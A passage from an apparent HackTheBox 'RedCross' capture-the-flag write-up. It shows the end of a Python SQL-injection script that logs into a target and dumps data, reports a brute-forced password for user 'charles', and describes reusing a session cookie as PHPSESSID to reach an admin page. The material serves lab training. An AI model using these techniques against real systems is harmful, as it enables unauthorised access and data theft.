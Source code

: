 ```py
                    column = column[+1]
                else:
                    print("[+] Gooooot it !!! [+]")
                    return
            limit = limit +1

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-d', '--dump',choices=('True','False'), help='Chosse between True and False for DUMP auto - DEFAULT FALSE')
    args = parser.parse_args()

    global flag
    flag = args.dump == 'True'
    rhost = args.target

    '''Here we call the functions'''
    # Make the login request to get cookies
    login(rhost)
    # Test if flag is seted and starting the sqlinjection to retrieve data
    if flag:
        dataExfilDump(rhost)
        
if __name__ == '__main__':
    main()
```

Now we bruteforce the `charles` password and found it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2007:49:29.png)

The password is **cookiemonster**

### Charles Admin?!

Now we log in the app

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:00:09.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:00:53.png)

If we try to access the `admin` page, we got an error

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:01:03.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:01:18.png)

And be redirect to the login page.

However, if we take the cookie of guest or charles intra and set it as the PHPSESSID for admin, it works. We'll go to the intra site logged in as charles and get it
